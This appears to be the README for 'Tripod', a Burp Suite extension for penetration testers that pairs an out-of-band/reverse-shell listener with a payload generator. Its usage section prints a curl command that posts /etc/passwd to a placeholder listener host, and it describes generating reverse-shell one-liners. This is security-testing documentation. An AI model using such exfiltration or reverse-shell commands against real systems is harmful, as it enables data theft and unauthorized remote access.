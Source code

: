 # Tripod for Burp Suite

A powerful Burp Suite extension that combines a versatile network listener with a comprehensive payload generator, designed to streamline out-of-band and reverse shell testing.

Tripod integrates two essential pentesting tools directly into your Burp Suite workflow: a listener that can catch both simple HTTP requests and interactive reverse shells, and a payload generator with a rich library of templates for various systems and scenarios.

## Table of Contents

- [Core Features](#core-features)
  - [Tripod Listener](#tripod-listener)
  - [Payload Generator](#payload-generator)
- [Dependencies](#dependencies)
- [Installation](#installation)
  - [Using Precompiled JAR](#using-precompiled-jar)
  - [Building from Source with Ant](#building-from-source-with-ant)
- [Usage](#usage)
  - [Example 1: Catching an HTTP Callback (OAST)](#example-1-catching-an-http-callback-oast)
  - [Example 2: Getting a Reverse Shell](#example-2-getting-a-reverse-shell)
- [Author](#author)

## Core Features

### Tripod Listener

The listener is the core of the tool and operates in two distinct modes:

- **HTTP Webhook Mode**: Acts as a simple web server that logs all incoming HTTP requests. Ideal for out-of-band application security testing (OAST), such as verifying vulnerabilities like blind SSRF, blind SQLi, or blind command injection by forcing a target to make an HTTP request to a server you control.
- **Reverse Shell Mode**: Turns the listener into a handler for reverse shells. Once a target machine executes a reverse shell payload, it connects back to Tripod, providing an interactive command-line shell directly within the Burp Suite UI. Includes a command input field and a display for shell output.
- **Utility - Kill Used Ports**: A utility that lists all processes currently listening on TCP ports and allows you to select and terminate them, useful for freeing up ports that a previous process didn't release.

### Payload Generator

The second major feature is a comprehensive payload generator that helps create one-liners and scripts to trigger the listener.

- **Categorized Payloads**: Organized into logical groups: Reverse/Bind Shell, Web Shell, and Data Exfiltration.
- **Highly Customizable**: Tailor payloads by specifying the target Operating System (Linux/macOS or Windows), IP address, and Port. For reverse shells, choose from encoding methods like Base64 or URL encoding.
- **Rich Template Library**: Includes templates for common languages and tools, such as Python, Bash, PowerShell, Netcat, Perl, PHP, and Ruby.
- **Auto-Fill Integration**: An "Auto-fill from Listener" button populates the payload generator's IP and port fields with details from the active listener, streamlining the workflow.

## Dependencies

To compile and run this Burp Suite extension, you need:

- **Burp Suite API**: Provided by PortSwigger when downloading Burp Suite, required for extension development.
- **Third-Party Libraries**:
  - `jackson-core-2.12.7.jar`
  - `jackson-annotations-2.12.7.jar`
  - `jackson-databind-2.12.7.1.jar`
  - `jjwt-api-0.12.5.jar` & `jjwt-impl-0.12.5.jar`
  - `gson.jar`
  - `flexmark-all-0.64.8.jar`

## Installation

### Using Precompiled JAR

1. **Download the required JAR files**:
   - `Tripod.jar` (the compiled extension)
   - All dependency JARs listed above (place them in a single folder, e.g., `lib/`).

2. **Add the Extension to Burp Suite**:
   - Open Burp Suite (Professional or Community Edition) and go to the `Extender` -> `Extensions` tab.
   - Click `Add`.
   - Set `Extension type` to `Java`.
   - Click `Select file...` and choose `Tripod.jar`.
   - In the `Java Environment` section, click `Select folder...` and choose the folder containing all dependency JARs (e.g., `lib/`).
   - Click `Next`. The Tripod tab should appear in Burp Suite’s UI.
   - Verify the extension loads by checking the `Output` tab in Extender for the message `Tripod loaded successfully!`.

### Building from Source with Ant

To build the Tripod extension from scratch using Apache Ant, follow these steps:

1. **Prerequisites**:
   - **Java Development Kit (JDK)**: Version 8 or higher. Set the `JAVA_HOME` environment variable to your JDK installation (e.g., `JAVA_HOME=/path/to/jdk-11`).
   - **Apache Ant**: Version 1.10.x or higher. Add Ant’s `bin` directory to your `PATH` (e.g., `export PATH=/path/to/apache-ant-1.10.12/bin:$PATH`).
   - **Burp Suite API**: Obtain `burp.jar` from PortSwigger (included with Burp Suite) and place it in the `lib/` directory.
   - **Dependency JARs**: Download and place the following in the `lib/` directory:
     - `jackson-core-2.12.7.jar`
     - `jackson-annotations-2.12.7.jar`
     - `jackson-databind-2.12.7.1.jar`
     - `jjwt-api-0.12.5.jar`
     - `jjwt-impl-0.12.5.jar`
     - `gson.jar`
     - `flexmark-all-0.64.8.jar`
   - Download from [Maven Central](https://mvnrepository.com/) or other repositories.

2. **Set Up Project Directory**:
   - Create a project directory (e.g., `Tripod/`) with the following structure:
     ```
     Tripod/
     ├── BurpExtender.java
     └── TripodPanel.java
     ├── lib/
     │   ├── burp.jar
     │   ├── jackson-core-2.12.7.jar
     │   ├── jackson-annotations-2.12.7.jar
     │   ├── jackson-databind-2.12.7.1.jar
     │   ├── jjwt-api-0.12.5.jar
     │   ├── jjwt-impl-0.12.5.jar
     │   ├── gson.jar
     │   └── flexmark-all-0.64.8.jar
     ├── build.xml
     ├── build/
     │   └── (output directory for compiled classes)
     └── dist/
         └── (output directory for the final JAR)
     ```

3. **Run Ant Build**:
   - Navigate to the `Tripod` directory:
     ```bash
     cd /path/to/Tripod
     ```
   - Run the Ant build command:
     ```bash
     ant
     ```
   - This executes the default `dist` target in `build.xml`, which:
     - Compiles source files from `src/` into `build/`.
     - Packages compiled classes and dependencies into `dist/Tripod.jar` as a fat JAR.
     - Outputs: `Fat JAR file created successfully! Location: dist/Tripod.jar`.

4. **Verify and Install**:
   - Check the `dist/` directory for `Tripod.jar`.
   - Follow the steps in [Using Precompiled JAR](#using-precompiled-jar) to load `Tripod.jar` in Burp Suite.
   - If errors occur, check the Ant output or Burp’s `Extender` -> `Errors` tab. Ensure all dependency JARs are in `lib/` and correctly referenced.

5. **Troubleshooting**:
   - **Ant Not Found**: Verify Ant is installed and in your `PATH` (`ant -version`).
   - **Missing Dependencies**: Ensure all JARs are in `lib/`.
   - **API Version Mismatch**: Confirm `burp.jar` matches your Burp Suite version (e.g., 2023.10).
   - **Permission Issues**: Ensure write permissions for `build/` and `dist/`.
   - **Commented-Out Features**: The `Send to Tripod` context menu and settings persistence are disabled in the source code. Implement `saveSettings()`, `loadSettings()`, and `addEntry()` in `TripodPanel.java` to enable them.

## Usage

### Example 1: Catching an HTTP Callback (OAST)

1. Go to the **Tripod** -> **Listener** tab.
2. Select **HTTP Webhook** mode.
3. Enter a port (e.g., `8080`) and click **Start Listener**.
4. Go to the **Payload Generator** tab.
5. Select the `Data Exfiltration` category and the `Curl (File Upload)` template.
6. Click **Auto-fill from Listener** to set the correct IP and port.
7. Click **Generate** to create a payload like `curl -X POST --data-binary @/etc/passwd http://<YOUR_IP>:8080/`.
8. Execute the payload on the target machine.
9. The incoming request will appear in the **Request History** table on the Listener tab. Click it to view the full request and exfiltrated file content.

### Example 2: Getting a Reverse Shell

1. Go to the **Tripod** -> **Listener** tab.
2. Select **Reverse Shell** mode.
3. Enter a port (e.g., `4444`) and click **Start Listener**. The shell pane will show "Waiting for reverse shell connection...".
4. Go to the **Payload Generator** tab.
5. Select the `Reverse/Bind Shell` category, target OS (e.g., `Linux/macOS`), and a template (e.g., `Bash TCP`).
6. Click **Auto-fill from Listener**.
7. Click **Generate** to get the one-liner payload.
8. Execute the payload on the target machine.
9. Switch to the **Listener** tab. A "Connected" message will appear, and an interactive shell prompt will be ready for commands.

## Author

- **Joel Indra**

